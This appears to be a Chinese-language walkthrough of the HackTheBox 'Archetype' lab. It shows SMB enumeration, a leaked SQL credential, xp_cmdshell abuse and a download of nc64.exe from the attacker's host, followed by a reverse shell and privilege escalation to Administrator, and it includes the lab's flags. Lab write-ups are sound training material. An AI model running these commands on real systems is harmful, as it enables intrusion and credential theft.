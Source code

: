 # Archetype
### hackmd link:[hackmd](https://hackmd.io/@yeyeye618/SJBntzcCJx)
![image](https://hackmd.io/_uploads/rkLJMu5C1e.png)

Task 1
---
Which TCP port is hosting a database server?
A: 1433
第1題問哪個tcp port負責資料庫server
用nmap來掃
```
nmap -sV 10.129.95.187
```
![image](https://hackmd.io/_uploads/r1WYqzcRJx.png)
就可以看到Microsoft SQL Server 2017 14.00.1000跑在1433 port上


Task 2
---
What is the name of the non-Administrative share available over SMB?
A: backups
這題問的是哪個是在SMB下，哪個directory是非管理者就能存取的，SMB的連線方式在之前的靶機也有出現過
```
smbclient -L 10.129.95.187
Password for [WORKGROUP\yeyeye618]: //留空
```
![image](https://hackmd.io/_uploads/rkHmpfqCke.png)
可以看到有較backups的directory

Task 3
---
What is the password identified in the file on the SMB share?
A:M3g4c0rp123
上一題有看到backups的directory，用`smbclient`連線進去
```
smbclient //10.129.95.187/backups
Password for [WORKGROUP\yeyeye618]: //留空
```
![image](https://hackmd.io/_uploads/ryvbRMq0kl.png)
可以看到有個叫`prod.dtsConfig`的檔案，看起來是config，把他抓下來看看
![image](https://hackmd.io/_uploads/rkchAG9Cke.png)
找到了UserId跟Password

Task 4
---
What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?
A: mssqlclient.py
![image](https://hackmd.io/_uploads/B1YRfmq01g.png)

Task 5
---
What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?
A: xp_cmdshell
在MSSQL的document找到了`xp_cmdshell`
![image](https://hackmd.io/_uploads/rkUSVX90Jg.png)
依照這題跟上一題的提示，我先用mssqlclient.py連線到server
```bash
python3 mssqlclient.py -p 1433 ARCHETYPE/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth
```
![image](https://hackmd.io/_uploads/S1SIjX5Rkg.png)
一開始一直登入不進去，研究後才發現需要加上`-windows-auth`，要不然就會當成SQL server帳號做登入

Task 6
---
What script can be used in order to search possible paths to escalate privileges on Windows hosts?
A: winPEAS
![image](https://hackmd.io/_uploads/SJNA4Q9AJe.png)

Task 7
---
What file contains the administrator's password?
A: ConsoleHost_history.txt
這裡我一直找不到，最後去看official writeup
在writeup裡提到了要用reverse shell
從github上把nc64.exe抓下來後架起http.server
```
python3 -m http.server 8080
```
再從impacket這邊從本地抓到server上做reverse shell
```
 exec xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; 
 wget http://10.10.14.43/nc64.exe -outfile nc64.exe"
```
![image](https://hackmd.io/_uploads/ry8zF490kl.png)
接下來執行上傳好的nc64.exe
```
 exec xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; ./nc64.exe -e cmd.exe 10.10.14.43 8080"
```
本地就成功打到reverse shell了
![image](https://hackmd.io/_uploads/rJfhYEqRyg.png)
但是我們的權限還是只有在sql_svc，還需要提權到Administrator
值錢的題目就提到了winpeas這個工具，看起來就是突破口
上傳完後執行
![image](https://hackmd.io/_uploads/BkJ47r5Cyg.png)
可以看到這個ConsoleHost_history.txt

Task 8
---
Submit user flag
A: 3e7b102e78218e935bf3f4951fec21a3
在Desktop找到了`user.txt`，裡面就是user flag
![image](https://hackmd.io/_uploads/ByFxDHqRye.png)


Submit root flag
---
過程:
接續第7題，把ConsoleHost_history.txt撈出來
![image](https://hackmd.io/_uploads/SyxOPS50yg.png)
可以看到administrator的相關資料
用impacket底下的`psexec.py`做遠端執行
![image](https://hackmd.io/_uploads/B1G3tSq0ke.png)
在相同的地方找到了`root.txt`，撈出來
![image](https://hackmd.io/_uploads/r1qXqB9RJg.png)
成功取得flag
`b91ccec3305e98240082d4474b848528`



mssqlclient.py
---
`mssqlclient.py` 是 Impacket 工具集中專門用於與 Microsoft SQL Server 建立連線的腳本。它適用於需要進行 SQL Server 認證測試、執行 SQL 查詢、以及進一步進行滲透測試的情況。

### 適用情況
- 當需要對目標 Microsoft SQL Server 進行身份驗證測試時。
- 當需要執行 SQL 查詢或操作資料庫時。
- 當需要利用 SQL Server 的功能進行進一步的滲透測試（例如執行命令或提權）時。

### 主要功能
1. 支援 SQL Server 和 Windows 驗證模式（需使用 `-windows-auth` 參數）。
2. 執行 SQL 查詢並返回結果。
3. 支援執行 SQL Server 的擴展存儲過程（如 `xp_cmdshell`）。
4. 可用於執行命令以進一步滲透（例如上傳檔案或建立反向 Shell）。

### 優點
- 簡單易用，適合快速測試和滲透。
- 支援多種驗證模式，靈活性高。
- 與其他 Impacket 工具無縫整合，適合進行多步驟的滲透測試。

### 缺點
- 需要具備有效的憑證（如帳號和密碼）才能成功連線。
- 如果目標伺服器禁用了某些功能（如 `xp_cmdshell`），可能會限制其用途。
- 依賴 Python 環境，可能需要額外安裝依賴。

### 使用範例
以下是使用 `mssqlclient.py` 連線到 SQL Server 並執行命令的範例：
```bash
python3 mssqlclient.py -p 1433 ARCHETYPE/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth
```
在連線後，可以執行 SQL 查詢或使用 `xp_cmdshell` 執行系統命令：
```sql
EXEC xp_cmdshell 'whoami';
```
